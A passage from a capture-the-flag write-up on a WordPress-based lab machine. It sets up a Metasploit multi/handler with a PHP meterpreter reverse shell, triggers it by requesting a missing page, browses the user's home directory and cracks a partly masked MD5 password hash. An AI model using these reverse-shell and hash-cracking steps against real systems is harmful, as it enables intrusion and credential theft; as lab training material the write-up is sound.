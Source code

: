 Now running `metasploit` and setting up some multi handler listener.

````commandline
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST tun0
LHOST => tun0
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.8.208.30:4444
````

Now make in sort to access a page that does not exist. Example: <http://10.10.59.31/foobar.html> and you should see that you got connection in the `msfconsole`.

````commandline
[*] Sending stage (39282 bytes) to 10.10.59.31
[*] Meterpreter session 1 opened (10.8.208.30:4444 -> 10.10.59.31:38024) at 2021-08-28 02:50:44 +0200
meterpreter > getuid 
Server username: daemon (1)
meterpreter > pwd
/opt/bitnami/apps/wordpress/htdocs
````

Now looking up for the user flag for the CTF. But no luck, that file is only readable by the user.

````commandline
meterpreter > ls /home/
Listing: /home/
===============

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
40755/rwxr-xr-x  4096  dir   2015-11-13 08:20:08 +0100  robot

meterpreter > cd /home/robot
meterpreter > ls
Listing: /home/robot
====================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100400/r--------  33    fil   2015-11-13 08:28:21 +0100  key-2-of-3.txt
100644/rw-r--r--  39    fil   2015-11-13 08:28:21 +0100  password.raw-md5

meterpreter > cat password.raw-md5
robot:c3*****76192e4007dfb496cc*****3b
````

Looking up on [CrackStation](https://crackstation.net/) to save computing time and the password is: `**************************`.
